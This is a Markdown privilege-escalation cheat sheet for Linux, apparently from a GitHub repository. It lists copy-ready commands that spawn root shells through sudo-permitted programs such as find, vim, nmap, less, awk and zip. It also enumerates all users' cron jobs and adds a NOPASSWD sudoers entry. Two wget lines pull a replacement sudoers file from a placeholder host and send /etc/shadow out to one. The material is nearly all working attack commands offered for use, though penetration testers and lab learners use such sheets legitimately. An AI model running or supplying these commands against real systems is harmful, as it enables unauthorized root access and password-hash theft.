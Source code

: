 # PrivEsc Cheatsheet

## Get Cron Jobs of all users
(where possible)
```
for user in $(getent passwd | cut -f1 -d: ); do echo $user; crontab -u $user -l; done
```

## Available Commands

"List the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host"

```
sudo -l
```

### Find

```
sudo find /etc/passwd -exec /bin/sh \;
```

### Vim

```
sudo vim -c '!sh'
```

### nmap (old)

```
sudo nmap --interactive
nmap> !sh
```

### nmap (new)
```
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

### man

```
sudo man man
!sh
```

### more/less

```
sudo less /etc/hosts
!sh

sudo more /etc/hosts
!sh
```

### awk

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

### wget

```
sudo wget http://<HOST>:<PORT>/sudoers -O /etc/sudoers
```

Read file:

```
sudo wget --post-file=/etc/shadow <HOST>
```

### apache

```
sudo apache2 -f /etc/shadow
```

## Writeable `/etc/sudoers`
Append:
```
<username>      ALL = NOPASSWD: ALL
```

# zip
```
sudo -u root /usr/bin/zip ttt.zip tt.php -T –unzip-command=”sh -c /bin/bash”
```

# chown
Check `chown_chmod_tar_rsync.md`.

# chmod
Check `chown_chmod_tar_rsync.md`.

# tar
Check `chown_chmod_tar_rsync.md`.

# rsync
Check `chown_chmod_tar_rsync.md`.


# Resources
- [Abusing SUDO (Linux Privilege Escalation)](http://touhidshaikh.com/blog/?p=790)
